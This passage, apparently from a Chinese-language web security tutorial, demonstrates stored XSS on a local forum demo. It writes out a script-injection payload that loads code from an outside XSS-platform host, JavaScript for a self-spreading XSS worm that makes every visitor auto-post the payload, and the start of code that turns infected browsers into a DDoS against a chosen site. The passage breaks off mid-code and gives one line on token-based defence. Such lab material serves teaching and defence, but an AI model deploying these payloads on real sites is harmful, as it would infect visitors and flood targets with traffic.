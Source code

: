 下面我们还是用这个论坛程序进行演示。

经过测试，可以使用GET传递参数进行发帖
```
http://xss.localhost/home/_fatie.php?bk=5&zt=0&content=333&title=<sCRiPt sRC=http://xo0.cc/gHnd></sCrIpT>
```
只需访问上面的连接就可以发表一篇标题为`<sCRiPt sRC=http://xo0.cc/gHnd></sCrIpT>`的帖子，这样在帖子列表页我们的XSS代码就会被执行。

我们修改XSS平台项目的代码，添加蠕虫代码

![](http://image.ixysec.com/image/xss/xss039.png)

```
var strrand = +new Date();//获取当前时间
var str = 'http://xss.localhost/home/_fatie.php?bk=5&zt=0&content=333&title=<sCRiPt sRC=http://xo0.cc/gHnd?123456'+strrand+'></sCrIpT>';//组合发帖的链接，拼接当前时间是为了防止浏览器访问同一资源使用的是缓存而不是真正去访问

var tag = document.createElement('img');//创建一个img标签元素
tag.src = str;//将这个元素的src属性设置为上面的发帖地址
document.body.append(tag.src);//将这个元素添加到html文档中
```
现在我们发表一篇标题为`<sCRiPt sRC=http://xo0.cc/gHnd></sCrIpT>`的帖子，然后访问帖子列表页

![](http://image.ixysec.com/image/xss/xss040.png)

可以看到访问了XSS平台的地址，而且我们修改过的代码也成功执行了，加载了发帖的链接。

此时列表页有2条帖子

![](http://image.ixysec.com/image/xss/xss041.png)

我们刷新看一下。

![](http://image.ixysec.com/image/xss/xss042.gif)

可以看到帖子数量成倍的增长，页面中有多少条帖子我们的代码就会被执行多少次，所有访问此页面的用户都会被感染然后自动发帖，这样就形成了XSS蠕虫。

防御XSS蠕虫：
可以在数据提交页面中提交随机生成的token在后台进行验证，如果验证不通过则发帖失败，这样就可以防止蠕虫病毒传播。

### DDOS攻击

想对某网站进行DDOS攻击需要结合XSS蠕虫使用可以发挥最大效果。

我们修改XSS平台项目代码

![](http://image.ixysec.com/image/xss/xss043.png)

```
var strrand = +new Date();
var str = 'http://xss.localhost/home/_fatie.php?bk=5&zt=0&content=333&title=<sCRiPt sRC=http://xo0.cc/gHnd?123456'+strrand+'></sCrIpT>';

var tag = document.createElement('img');
tag.src = str;
document.body.append(tag.src);
//--------------------------------------
//上面是蠕虫的代码，下面是DDOS攻击的代码
var myVar;//生明一个变量
function myFunction(){ //定义myFunction函数
	myVar = setInterval(alertFunc, 1000);//每一秒执行一次alertFunc这个函数
}
function alertFunc(){//定义alertFunc函数
	var strrand = +new Date();//获取当前时间
	var str = 'http://xss.localhost/'+strrand;//组合连接防止浏览器缓存，引号中的就是要进行DDOS攻击的网站
	
	var tag = document.createElement('img');//创建一个img元素
```